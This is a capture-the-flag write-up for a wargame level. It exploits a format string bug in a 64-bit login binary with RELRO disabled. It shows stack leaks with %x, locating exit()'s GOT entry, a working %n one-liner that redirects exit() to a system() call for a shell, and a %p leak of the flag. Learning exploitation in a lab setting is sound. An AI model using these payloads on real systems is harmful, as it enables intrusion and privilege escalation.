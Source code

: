 # level02
- ! This binary is an ELF in 64-bit !  
Adresses are 8 bytes long
- RELRO is disabled

## Step 1 : Understand the program

1. The program reads the 41 bytes of the flag in `/home/users/level03/.pass` file and store the flag in `ptr[48]`
2. The program waits for username entry and password entry in `stdin`
3. The program compares password entry to the flag
    - If equal: Prints `Greetings` and run a shell
    - If not equal: Prints the raw username string and `exit(1)`. __Here is the vulnerability: Format String Vuln__

## Step 2

Leak the stack to find somethings interesting

```console
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAABBBB %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: CCCCCCCC
*****************************************
AAAABBBB ffffe4c0 0 43 2a2a2a2a 2a2a2a2a ffffe6b8 f7ff9a08 43434343 0 0 0 0 does not have access!
```

Yeah ! We access to the password buffer thanks to the the __8th__ specifer `%x`.

### Solution
Since the program exit if the password is incorrect, we can make a ROP attack by changing the address of `exit()` in the __GOT__ by the address where the program run a shell. 

> Do it by the specifier `%n`. This specifier writes the number of characters written so far to the address of the specified parameter on the stack. In our case, the specified parameter will be password buffer filled with the address of `exit()` entry of the __GOT__.

## Step 3

Find the address of the __GOT__ where the address of `exit()` is stored
```bash
readelf -r level02 | grep exit
```
```console
000000601228  000c00000007 R_X86_64_JUMP_SLO 0000000000000000 exit + 0
```

The __GOT__ stores the address of `exit()` at `0x601228`

## Step 4
Find the address where the shell is run in the program
```console
$ gdb -q level02
Reading symbols from /home/users/level02/level02...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   [...]
   0x0000000000400a78 <+612>:	mov    %rax,%rdi
   0x0000000000400a7b <+615>:	mov    $0x0,%eax
   0x0000000000400a80 <+620>:	callq  0x4006c0 <printf@plt>
   0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
   0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
   0x0000000000400a8f <+635>:	mov    $0x0,%eax
   0x0000000000400a94 <+640>:	leaveq
   [...]
End of assembler dump.
(gdb) b *main
(gdb) r
(gdb) jump *main+625
Continuing at 0x400a85.
$ whoami
level02
```

> We have a shell at `0x400a85`

## Exploit
```bash
(python -c 'print "%4196997p" + "%8$n" + "\n" + "\x60\x12\x28"[::-1] '; cat) | /home/users/level02/level02
```

> 4196997 is equal to 0x400a85 (address of the shell). We write in decimal because `%n` specifier take a int pointer

## Other solution
```console
./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %21$p%22$p%23$p%24$p%25$p%26$p%27$p
--[ Password:
*****************************************
(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil) does not have access!
```
> At the 22th specifier, we access to the `ptr` buffer which contain the flag.

> Remember: all the flag have a size of 40 bytes

Now we have to

- Remove the 0x
- Split into 5 blocks --> 5 blocks of 8 bytes = 40 bytes
- Convert to ASCII
- Revert endian